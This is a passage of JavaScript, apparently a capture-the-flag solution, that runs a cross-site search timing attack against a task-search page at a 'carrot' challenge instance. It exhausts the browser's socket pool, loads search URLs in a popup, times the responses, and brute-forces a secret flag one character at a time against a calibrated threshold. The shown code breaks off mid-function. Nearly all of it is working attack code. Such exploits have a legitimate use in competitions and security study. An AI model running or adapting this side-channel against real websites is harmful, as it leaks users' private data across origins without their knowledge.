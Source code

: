 ```html
const block_socket = async (i) => {
fetch_sleep_long(i);
// needed?
await sleep(0);
}

const exhaust_sockets = async() => {
let i = 0
for (; i < SOCKETLIMIT; i++) {
block_socket(i);
}
console.log(`Used ${i} connections`);
}

const timeit = async (url, popup) => {
return new Promise(async (r) => {

popup.location = url;
// needed?
await sleep(50)

let val = await time_fetch()
r(val)
});
}

// const alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ-}!"#$%&\'()*+,-./:;<=>?@[\\]^`|~{'.split('');
const alphabet = 'abcdefghijklmnopqrstuvwxyz}_'.split('');
// const alphabet = 'abcdef}'.split('');

const oracle = async (search) => {
let url = `https://carrot-${INSTANCE}.mc.ax/tasks?search=${search}`
let t = await timeit(url, WINBG)

LOG = `${search}:${t}`
console.log(`${search}:${t}`)

return t > TIMELIMIT
}

const brute = async (flag) => {
for (const char of alphabet) {
if (await oracle(flag + char)) {
return char;
}
}
return false;
}

const calibrate = async () => {
return new Promise(async (r) => {
// slow
let url1 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=dice{`
let t1 = await timeit(url1, WINBG)
console.log(`slow:${t1}`)
// fast
let url2 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=XXXXXXXXXX`
let t2 = await timeit(url2, WINBG)
console.log(`fast:${t2}`)
return r((t1 + t2) / 2)
});

```